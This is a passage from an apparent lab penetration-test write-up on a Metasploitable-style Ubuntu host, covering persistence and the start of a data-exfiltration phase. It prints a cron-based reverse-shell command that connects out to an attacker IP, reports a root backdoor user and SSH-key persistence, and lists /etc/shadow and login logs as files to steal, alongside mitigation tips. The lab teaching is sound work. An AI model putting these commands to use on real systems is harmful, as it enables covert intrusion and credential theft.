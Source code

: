 **Command:**

```bash
echo "* * * * * bash -i >& /dev/tcp/192.168.56.1/4444 0>&1" >> /etc/crontab
```

⚠️ Use this technique with caution as the target machine will try to connect back to you every minute or based on the time interval you specify and this can be noisy and easily detected.

### ✅ Result
- Passwordless SSH access confirmed
- Backup user backdoor created with root privileges
- Optional reverse shell cron job installed

### 🧠 Observations
- SSH key persistence is stealthy and reliable.
- Creating a new user is effective but may be noticed by admins.
- Cron jobs offer automation but increase detection risk.

### 🛡️ Mitigation Recommendations
- Monitor /etc/passwd and /etc/crontab for unauthorized changes.
- Use SSH key auditing tools.
- Implement intrusion detection systems (IDS) like OSSEC or Tripwire.

> ### 💡 ***Tips & Insights***:
> *Persistence is about stealth and reliability. SSH keys are preferred for quiet access. Cron jobs and new users are useful but risk exposure. Always clean up after testing in lab environments.*

##  Phase 5: Data Exfiltration

### 🎯 Objective
Simulate the extraction of sensitive files from the compromised system to demonstrate the impact of a successful breach.

---

### 🧰 Tools & Resources
- **Access Level**: Root shell
- **Tool Used**: SCP, Bash
- **Target OS**: Ubuntu 8.04

---

### 🧪 Steps Taken
#### 1. Identified Sensitive Files
##### Common targets include:

- /etc/passwd: User account info
- /etc/shadow: Hashed passwords (root access required)
- /var/log/auth.log: Login history
- /home/msfadmin/Documents: Simulated personal files

